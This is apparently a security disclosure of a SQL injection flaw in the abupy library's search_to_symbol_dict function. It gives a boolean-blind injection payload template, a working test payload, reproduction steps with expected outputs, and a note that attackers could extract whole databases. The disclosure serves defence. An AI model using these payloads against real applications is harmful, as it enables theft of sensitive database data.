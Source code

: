 Vulnerability Product: abupy <= v0.4.0  
Vulnerability version: <= v0.4.0  
Vulnerability type: SQL Injection  
Vulnerability Details:  
Vulnerability location: abupy.MarketBu.ABuSymbol.search_to_symbol_dict

SQL Injection in abupy <= v0.4.0 causes arbitrary SQL code execution 

## [](#header-3)PROVE: 

Payload: ```"us10101' union select case when {CODE YOU WANNA EXEC, RETURN TRUE OR FALSE} then 'usJASNW' else 'usTROVW' end where ''='"```  
Test_payload: ```"us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"```  
Usage: ```abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='")```  

Firstly download abupy latest version(v0.4.0)
```
pip install abupy
```

Secondly import abupy.MarketBu.ABuSymbol, and call abupy.MarketBu.ABuSymbol.search_to_symbol_dict with test_payload as argument
```py
import abupy.MarketBu.ABuSymbol
print(abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"))
```
(abupy.MarketBu.ABuSymbol.search_to_symbol_dict is a functional api which author mentioned in the code annotation of the function, It is legal and normal for users and programmers to call this function, proof: https://github.com/bbfamily/abu/blob/master/abupy/MarketBu/ABuSymbol.py -> line: 200 code annotation )

Finally you can find the result is `{'JASNW': 'JASON INDS INC'}`  
if you replace `sqlite_version() = '3.31.1'` with `sqlite_version() != '3.31.1'`  
you can find the result is `{'TROVW': 'TROVAGENE INC'}`  
Of course, you can also fill in other relational expressions here to verify the vulnerability, such as `1 = 1`, `1 != 1`

proved the result is determined by payload  
proved sql code execution  

POC: https://github.com/Leeyangee/leeya_bug/blob/main/abupy_poc.py

## [](#header-3)HARM: 

Programmers may mistakenly use abupy.MarketBu.ABuSymbol.search_to_symbol_dict in this library as part of the backend of the web application, allowing attackers to call the function and return sensitive database data.  

The above payload is just an example, attackers can construct a complex payload to obtain complete database sensitive information in a way similar to sql blind injection

discovered by leeya_bug
